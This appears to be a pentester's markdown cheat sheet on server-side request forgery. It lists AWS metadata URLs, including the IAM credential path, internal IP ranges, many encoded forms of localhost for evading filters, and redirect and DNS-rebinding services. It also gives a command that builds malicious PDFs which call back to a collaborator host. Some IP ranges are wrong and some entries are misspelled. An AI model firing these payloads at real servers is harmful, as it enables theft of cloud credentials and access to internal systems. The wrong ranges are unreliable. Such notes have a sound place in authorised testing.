 # SSRF

Sometimes sites offer the possibility to make external requests using their server, what if we could user their “external” service to make requests for internal resources. That’s SSRF.

If the site is hosted in amazon, it is possible to get internal information by requesting the urls:

```
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/user-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/flaws/
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/meta-data/iam/securty-credentials
```

Another idea is to try and request IP’s that we know that are internal:

```
10.0.0.0 to 10.255.255.55
100.64.0.0 to 10.127.255.255
127.0.0.0 to 127.255.255.255
127.16.0.0 to 127.31.255.255
192.0.0.0 to 192.0.0.255
198.18.0.0 to 198.19.255.255
```

Sometimes websites block external acess to localhost (ie 127.0.0.1). Fortunately it is possible to bypass restrictions by referencing localhost in other ways.

Did you know that `127.0.0.1` and `127.1` are the same thing?

```
127.0.0.1
127.0.0.2
127.1
127.2
::1
0:0:0:0:0:0:0:1
0:0:0:000:0:0:0:1
0000:0000:0000:0000:0000:0000:0000:0001
2130706433
2130706434
7F000001
7F000002
localhos
127.123.123.123
0x7f.1
017700000001
127.0.0.1
localhost
0x7f.0x0.0x0.0x1
0177.00.00.01
017700000001
0x7f001
2130706433
017700000001
%6c%6f%63%61%6c%68%6f%73%74
%31%32%37%2e%30%2e%30%2e%31
0x7f000001
00000000177.000000000.000000000.000000001
0x7f.0x0.0x0.0x1
0x000000007f.0x000000000.0x000000000.0x000000001
0x7f.0x0.0x0.1
0x7f.0x0.0.1
0x7f.0.0.1
127.0x0.0x0.0x1
127.0.0x0.0x1
127.0.0.0x1
0177.00.00.1
0177.00.0.1
0177.0.0.1
127.00.00.01
127.0.00.01
127.0.0.01
0x7f.0x0.1
0x7f.1
0177.00.1
0177.1
0x7f.00.1
0177.0x0.1
::ffff:7f000001
0:0:0:0:0:ffff:7f000001
0000:0000:0000:0000:0000:ffff:7f000001
0000:0000:0000:0000:0000:ffff:127.0.0.1
hostname
0177.1
0177.2
0177.0.1
0177.0.2
017700000001
017700000002
0x7F000001
0x7F000002
0X07f.0.0.1
```

## IP Converter

- [https://h.43z.one/ipconverter/](https://h.43z.one/ipconverter/)

## Redirect from one URL to another

- [https://ssrf.localdomain.pw](https://ssrf.localdomain.pw/)

```
https://ssrf.localdomain.pw/csv-with-body/301-http-169.254.169.254:80-.c.csv
https://ssrf.localdomain.pw/img-with-body/301-http-169.254.169.254:80-.i.jpg
```

- [https://sslip.io/](https://sslip.io/)

## DNS Rebinding

To put it super simply, DNS rebinding allows you to have a hostname that switches between 2 ips with a very low ttl. This can bypass SSRF protections by resolving as a “safe” ip at first, then immediately switching to an “unsafe” or internal ip.

- [https://lock.cmpxchg8b.com/rebinder.html](https://lock.cmpxchg8b.com/rebinder.html)

## Using enclosed alphanumerics

```
http://ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ = example.com
```

Convert to unicode: [http://qaz.wtf/u/convert.cgi](http://qaz.wtf/u/convert.cgi)

## Cloud Meadata

Interactsh server supports DNS records for cloud metadata services, which is useful for testing SSRF-related vulnerabilities.

```
aws.interact.sh points to 169.254.169.254
alibaba.interact.sh points to 100.100.100.200
```

## PDF

```
# https://github.com/jonaslejon/malicious-pdf
python3 malicious-pdf.py burp-collaborator-url
```

## Mindmap
![[Pasted image 20241106113120.png]]## Articles

|WriteUp|Description|
|---|---|
|[https://dant0x65.medium.com/bug-bounty-tip-automating-ssrf-ea344ec59962](https://dant0x65.medium.com/bug-bounty-tip-automating-ssrf-ea344ec59962)|Configure burp to look for SSRFs|
|[https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery)|All about SSRF|
|[https://github.com/jdonsec/AllThingsSSRF](https://github.com/jdonsec/AllThingsSSRF)|All Things SSRF|
|[https://github.com/assetnote/blind-ssrf-chains](https://github.com/assetnote/blind-ssrf-chains)|Blind SSRF Chains|
